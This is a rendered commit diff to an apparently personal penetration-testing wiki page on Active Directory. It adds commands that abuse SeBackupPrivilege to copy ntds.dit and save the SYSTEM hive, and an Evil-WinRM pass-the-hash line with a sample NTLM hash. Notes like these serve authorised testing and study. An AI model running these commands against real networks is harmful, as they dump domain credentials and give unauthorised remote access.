

Before and after one commit to qwutony/qwutony.github.io, a Jekyll site: the page built from _wiki/003-active-directory-penetration-testing.md, in a window 1280 px wide and 1400 px high, scrolled down 2152 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; before the commit the page ends 3498 px from its top, so only the background shows below that.

Commit message:
Update 003-active-directory-penetration-testing.md

````diff
--- a/_wiki/003-active-directory-penetration-testing.md
+++ b/_wiki/003-active-directory-penetration-testing.md
@@ -97,6 +97,19 @@ Dumping LSASS via Linux: https://medium.com/@offsecdeer/dumping-lsass-remotely-f
 pypykatz lsa minidump lsass.DMP
 ```
 
+## Domain Escalation
+[Backup Operator - Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators)
+```
+whoami /all (SeBackupPrivilege Enabled)
+
+diskshadow /s backup.txt
+robocopy /b E:\Windows\ntds . ntds.dit (NTDS file)
+reg save hklm\system c:\temp\system.bak (System Hive keys)
+
+## Other Resources
+https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960#ac58
+```
+
 -----------------------------------------------------------------------
 
 ## Active Directory Tools
@@ -121,11 +134,20 @@ smbclient.py (Impacket)
 [NetExec - Cheatsheet](https://github.com/BlWasp/NetExec-Cheatsheet)
 [SMB Enumeration Cheatsheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)
 
-## Impacket Tools
+**WinRM**
+[Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
+```
+evil-winrm -i 10.10.10.192 -u "svc_backup" -H "9658d1d1dcd9250115e2205d9f48400d"
+```
+
+[Impacket]()
+```
+python3 -m pipx install impacket
   - **PSExec**
     - Shell access via SMB shares (Pass the Hash)
   - **GetNPUsers**
     - Kerberos Pre-authentication disabled (ASREPRoasting)
+```
 
 ## Resources
  - [The Hacker Recipes](https://www.thehacker.recipes/)
````
